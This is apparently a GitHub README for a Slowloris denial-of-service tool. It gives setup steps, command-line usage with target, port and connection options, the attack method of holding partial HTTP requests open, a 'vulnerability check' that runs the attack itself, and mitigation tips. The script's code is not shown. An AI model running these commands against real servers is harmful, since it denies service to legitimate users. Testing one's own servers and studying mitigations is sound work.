 #  Slowloris DoS Attack Automation

## 🔧 Installation & Setup
###  1️ Clone the Repository
```bash
git clone https://github.com/your-username/Slowloris-Attack.git
cd Slowloris-Attack
```

###  2️ Install Required Dependencies
```bash
pip install requests
```

---

##  Usage Guide
### Basic Attack Command
```bash
python slowloris.py <target> -p <port> -c <connections> -i <interval>
```
### Example
```bash
python slowloris.py 127.0.0.1 -p 8080 -c 100 -i 10
```
🔹 127.0.0.1 → Target server (localhost for testing)  
🔹 8080 → Target port  
🔹 100 connections → Number of concurrent attack threads  
🔹 10 sec interval → Time between partial request sends  

### Available Command-Line Options
| Option            | Description                                  | Default |
|------------------|----------------------------------------------|---------|
| `<target>`       | Target server IP or domain                   | -       |
| `-p, --port`     | Target port                                  | 80      |
| `-c, --connections` | Number of open connections               | 500     |
| `-i, --interval` | Time interval between partial requests (sec) | 15      |

---

##  Attack Methodology
1. **Open multiple connections** to the target server.
2. **Send partial HTTP headers** instead of complete requests.
3. **Maintain active connections** by periodically sending small data chunks.
4. **Exhaust server connection slots**, preventing legitimate users from accessing it.

---

##  Detecting Server Vulnerability
To check if a target is **vulnerable**:
```bash
python slowloris.py <target> -p 80 -c 10 -i 10
```
✔ If connections **stay open** indefinitely, the server **may be vulnerable**.  
❌ If connections **are dropped quickly**, the server **has mitigation in place**.

---

##  How to Stop the Attack?
Press **CTRL + C** to stop the script.

---

## 🛠️ Mitigation Techniques
Servers can **prevent Slowloris attacks** by:
- **Limiting connection timeouts** (e.g., Nginx `client_body_timeout`).
- **Using Reverse Proxies** like Cloudflare.
- **Restricting IP requests** (rate limiting).
- **Dropping slow connections**.

---
  
This project is for **educational use only**.
```

---
